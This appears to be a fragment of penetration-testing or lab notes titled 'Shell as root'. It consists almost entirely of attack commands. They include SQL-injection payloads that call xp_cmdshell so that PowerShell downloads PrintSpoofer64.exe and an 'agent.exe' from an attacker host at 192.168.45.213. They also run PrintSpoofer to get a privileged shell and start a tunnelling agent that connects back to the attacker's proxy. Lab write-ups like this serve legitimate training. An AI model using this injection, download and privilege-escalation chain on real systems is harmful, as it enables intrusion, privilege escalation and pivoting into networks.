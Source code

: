 # Shell as root

```
cd c:/users/public
```

```
'EXEC xp_cmdshell "powershell.exe wget http://192.168.45.213:8000/PrintSpoofer64.exe -OutFile c:\Users\Public\PrintSpoofer64.exe"--
```

```
.\PrintSpoofer64.exe -i -c powershell.exe
```

##### Upload agent.exe

```
'EXEC xp_cmdshell "powershell.exe wget http://192.168.45.213:8000/agent.exe -OutFile c:\Users\Public\agent.exe"--
```

#### Start Agent & Proxy
```
.\agent.exe -ignore-cert -connect 192.168.45.213:11601
```

Kali:
```
.\proxy -self-cert
```